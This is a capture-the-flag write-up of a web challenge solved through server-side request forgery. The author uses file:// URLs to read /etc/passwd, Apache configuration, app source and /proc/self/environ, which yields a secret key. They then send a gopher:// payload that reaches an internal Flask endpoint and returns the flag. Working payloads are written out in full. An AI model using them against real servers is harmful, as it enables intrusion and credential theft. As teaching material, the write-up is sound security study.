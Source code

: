 ## Description

We remade our club organization website. Check it out.

## Solution

let's visit the website :

![mainpage](images/mainpage.png)

there is nothing interesting there, if we check the source html of the page, we find this link to a `javascript` file :

![src](images/src.png)

when we click on it we get this js code :

```js
function myFunc(eventObj) {
    var xhttp = new XMLHttpRequest();
    xhttp.onreadystatechange = function () {
      if (this.readyState == 4 && this.status == 200) {
        document.getElementById("content").innerHTML = xhttp.responseText;
      }
    };
    xhttp.open("POST", '/request');
    xhttp.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xhttp.send("service=" + this.attributes.link.value);

  }

  var dep = document.getElementsByClassName('department');
  for (var i = 0; i < dep.length; i++) {
    dep[i].addEventListener('click', myFunc);
  }
```

so there is an endpoint `/request` that accepts a POST request with the parameter `service` that takes the value of a URL.

let's request that endpoint on burpsuite :

![burp](images/burp.png)

interesting, we might have an SSRF here, but before that let's try something else.

since this will accept any link, why we don't try to grab local files using `file://` which is a URI (Uniform Resource Identifier) scheme that is used to indicate that the referenced resource is a local file.

let's try to read the `/etc/passwd` file :

![passwd](images/passwd.png)

we got the content of the file, great, now let's check some sensitive stuff.

we know that this server is running `apache2`, the common path to the apache configuration is `/etc/apache2/sites-enabled/000-default.conf`, let's try to read that :

![conf](images/conf.png)

we got the paths to some internal apps!

the interesting one is `secret-service`, which is located in `/var/www/secret-service/`, making and educated guess, we try to read the source code of that app in `/var/www/secret-service/app.py` :

![source](URL)

and we got it, let's place it here for better visibility :

```python
from flask import Flask, render_template, request, jsonify
import os
from dotenv import load_dotenv

app = Flask(__name__)

load_dotenv()
SECRET_KEY = os.getenv('SECRET_KEY')

flag = os.popen("/flag").read()

@app.route("/flag", methods=["POST"])
def flag():
    try:
        data = request.get_json()
        secret = data.get('secret')
        if secret == SECRET_KEY:
            flag = os.popen("/flag").read()
            return jsonify({'success': True, 'flag': flag})
        else:
            return jsonify({'success': False, 'error': 'Invalid secret'})
    except Exception as e:
        return jsonify({'success': False, 'error': "Something Went wrong"})



@app.route("/flag", methods=["GET"])
def test():
    return "you can test your GET payloads here"


if __name__ == "__main__":
    app.run(port=5000)
```

(before continuing, you may ask why we don't just read the flag since it's placed in that app's web root dir, i tried that but it didn't work cause probably the file is owned by root and www-data has no read permission on it.)

okey that's interesting, so this app has an endpoint `/flag`, if we send a POST request to that endpoint, it will check for the post data that has to be in json, the data should contain a key named `secret` with it's value that is placed in the `SECRET_KEY` environment variable, if all goes well we get the flag.

we have 2 problems, let's start with the first.

the first problem is we don't have the KEY, but since it's in an environment variable, we can check the `/proc/self/environ` file which holds the environment variables of our process :

![env](images/env.png)

we got the key.

the last problem is how are we gonna send a POST request from this parameter, we need to find a way to send this request :

```
POST /flag HTTP/1.1
Content-Type: application/json
Content-Length: 46

{"secret":"b7bb70a3b3c95f570a8d31ece41bf7c5"}
```

this meets all the endpoint's conditions to give us the flag but the problem is sending it.

this is where `gopher` comes in play, we can actually send http requests and specially `http POST requests` using the `gopher://` protocol, you can learn more about how to use this technique [here](https://infosecwriteups.com/how-gopher-works-in-escalating-ssrfs-ce6e5459b630).

so following the blog, if we want to send the request we mentioned earlier, we would send something like this using gopher :

```
gopher://127.0.0.1:5000/_POST%20%2Fflag%20HTTP%2F1.1%0AContent-Type%3A%20application%2Fjson%0AContent-Length%3A%2046%0A%0A%7B%22secret%22%3A%22b7bb70a3b3c95f570a8d31ece41bf7c5%22%7D%0A
```

let's URL decode that to easily read it :

```
gopher://127.0.0.1:5000/_POST /flag HTTP/1.1
Content-Type: application/json
Content-Length: 46

{"secret":"b7bb70a3b3c95f570a8d31ece41bf7c5"}
```

we see that we met all the conditions, but when we send it we get this error :

![error](images/error.png)

hmm, may be this is caused by encoding, to play safe , let's also encode the `%` characters that are responsible for URL encoding, so we replace all occurrence of `%` to `%25`, and the URL becomes :

```
gopher://127.0.0.1:5000/_POST%2520%252Fflag%2520HTTP%252F1.1%250AContent-Type%253A%2520application%252Fjson%250AContent-Length%253A%252046%250A%250A%257B%2522secret%2522%253A%2522b7bb70a3b3c95f570a8d31ece41bf7c5%2522%257D%250A
```

let's send that :

![flag](images/flag.png)

- flag: `shellmates{go_go_go_GoOOOPHER}`
